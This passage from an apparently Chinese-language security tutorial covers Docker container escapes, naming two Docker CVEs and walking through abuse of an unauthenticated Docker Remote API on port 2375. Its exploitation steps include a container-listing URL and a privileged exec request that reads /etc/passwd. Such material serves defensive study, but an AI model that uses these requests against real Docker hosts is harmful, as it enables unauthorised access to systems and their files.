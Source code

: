 nc 接收到反弹的 shell

![](images/format,png-163410875271318)

由于容器服务缺陷导致的逃逸还包括 Docker cp CVE-2019-14271 和 Docker build code execution CVE-2019-13139，利用起来都具有一定的限制条件，具体原理和利用可参考：  
[https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/](https://links.jianshu.com/go?to=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdocker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271%2F)  
[https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/](https://links.jianshu.com/go?to=https%3A%2F%2Fstaaldraad.github.io%2Fpost%2F2019-07-16-cve-2019-13139-docker-build%2F)

配置不当引发的 docker 逃逸
=================

1、emote api 未授权访问
-----------------

docker swarm 是管理 docker 集群的工具。主从管理、默认通过 2375 端口通信。绑定了一个 Docker Remote API 的服务，可以通过 HTTP、Python、调用 API 来操作 Docker。  
当使用官方推荐启动方式时

```
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

在没有其他网络访问限制的主机上使用，则会在公网暴漏端口。

![](images/format,png-163410875271319)

![](images/format,png-163410875271320)

漏洞利用：  
1、首先列出所有容器，得到 id 字段

```
http://x.x.x.x:2375/containers/json
```

![](images/format,png-163410875271321)

2、然后创建一个 exec

```
POST /containers/<container_id>/exec HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json
Content-Length: 188
 
{
  "AttachStdin": true,
  "AttachStdout": true,
  "AttachStderr": true,
  "Cmd": ["cat", "/etc/passwd"],
  "DetachKeys": "ctrl-p,ctrl-q",
  "Privileged": true,
  "Tty": true
}
```
